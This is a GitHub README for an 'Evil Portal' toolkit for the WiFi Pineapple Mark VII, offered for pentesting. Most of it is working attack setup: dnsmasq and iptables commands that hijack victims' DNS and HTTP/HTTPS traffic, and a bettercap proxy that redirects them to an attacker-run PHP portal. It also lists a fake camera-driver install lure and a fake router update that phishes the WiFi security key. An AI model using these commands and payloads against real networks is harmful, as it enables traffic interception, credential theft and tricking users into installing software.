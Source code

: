 # WIFI PINEAPPLE MARK VII - EVIL PORTAL

- The leading rogue access point and WiFi pentest toolkit for close access operations.
- Passive and active attacks analyze vulnerable and misconfigured devices.
- https://hak5.org/collections/sale/products/wifi-pineapple

> __Author__::      TW-D
>
> __Version__::     1.0.0
>
> __Copyright__::   Copyright (c) 2024 TW-D
>
> __License__::     Distributes under the same terms as Ruby
>
> __Requires__::    PHP >= 8.1, Ruby >= 2.7.0p0 and WiFi Pineapple Mark VII 2.1.3-stable
>  
>
> __Installation (Debian-Based Linux Distributions)__::
>
> * sudo apt-get install php8.1-cli php8.1-curl
>
> * sudo apt-get install build-essential ruby ruby-dev libpcap-dev
>
> * sudo gem install sorted_set bettercap

## Description

A evil portal is a technique used to deceive users of a Wi-Fi network by redirecting them to a malicious web page instead of the expected authentication or home page.

__Note :__ *"Issues" and "Pull Requests" are welcome.*

## Tested On

| Operating System with/without Web Browser | Notification Type |
| --- | --- |
| Ubuntu 22.04 | None |
| Android 8.0.0 | System |
| Microsoft Windows 10 | None |
| Raspberry Pi bookworm | None |
| Ubuntu 22.04 with Mozilla Firefox | Alert |
| Microsoft Windows 10 with Mozilla Firefox | Alert |
| Raspberry Pi bookworm with Mozilla Firefox | Alert |

## Configuration

### Hacker - Connecting to the WiFi Pineapple

Connect the WiFi Pineapple to your computer via the USB-C cable.

### WiFi Pineapple - Web UI

Settings > Networking > Wireless Client Mode : The wlan2 interface must be disconnected.

### Hacker - Terminal 1

```bash
hacker@hacker-computer:~$ ifconfig enx
enx: [...]
        inet 172.16.42.100  netmask 255.255.255.0  broadcast 172.16.42.255
[...]

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE  SERVICE
53/tcp   open   domain
5353/tcp closed mdns
53/udp   open   domain
5353/udp closed zeroconf
[...]

hacker@hacker-computer:~$ ssh root@172.16.42.1
root@mk7:~# dnsmasq --address=/#/172.16.42.1 --no-hosts --interface=br-lan --port=5353 --no-resolv
root@mk7:~# echo 1 > /proc/sys/net/ipv4/ip_forward
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto udp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 80 --jump DNAT --table nat --to-destination 172.16.42.100:8080
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 443 --jump DNAT --table nat --to-destination 172.16.42.100:8000
root@mk7:~# iptables --append POSTROUTING --jump MASQUERADE --table nat
root@mk7:~# exit

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE SERVICE
53/tcp   open  domain
5353/tcp open  mdns
53/udp   open  domain
5353/udp open  zeroconf
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 53 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 5353 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ php -S 172.16.42.100:8000
```

### Hacker - Terminal 2

```bash
hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv4/ip_forward"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv6/conf/all/forwarding"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo bettercap \
--interface enx \
--gateway 172.16.42.1 \
--no-discovery \
--log ./logs/bettercap.log \
--silent \
--no-spoofing \
--proxy \
--proxy-port 8080 \
--allow-local-connections \
--no-sslstrip \
--no-http-logs \
--proxy-module ./EvilPortal.rb \
--redirect-url http://172.16.42.100:8000/
```

### Hacker - Terminal 3 (Optional)

```bash
hacker@hacker-computer:~$ curl --head --interface enx "http://neverssl.com/"
HTTP/1.1 302 Found
[...]
Location: http://172.16.42.100:8000/
Cache-Control: max-age=0, private, must-revalidate

hacker@hacker-computer:~$ curl --head --insecure --interface enx "https://www.google.com/"
curl: (35) error:0A000126:SSL routines::unexpected eof while reading

hacker@hacker-computer:~$ exit
```

## Using and Loading Payloads

In *"./payloads/"* directory, you will find :

| DEVELOPMENT | Author | Description | How to use |
| --- | --- | --- | --- |
| skeleton.html | TW-D | Empty payload intended for development. | [Documentation](./payloads/development/skeleton.md) |

| EXECUTION | Author | Description | How to use |
| --- | --- | --- | --- |
| web-camera.html | TW-D | Simulates a fake surveillance video and demands the installation of a driver for its operation. | [Documentation](./payloads/execution/web-camera.md) |

![web-camera](./payloads/execution/web-camera.png "web-camera")

| PHISHING | Author | Description | How to use |
| --- | --- | --- | --- |
| wifi_security-key.html | TW-D | Simulates a fake update of the Internet equipment and demands the WiFi security key to continue. | [Documentation](./payloads/phishing/wifi_security-key.md) |

![wifi_security-key](./payloads/phishing/wifi_security-key.png "wifi_security-key")
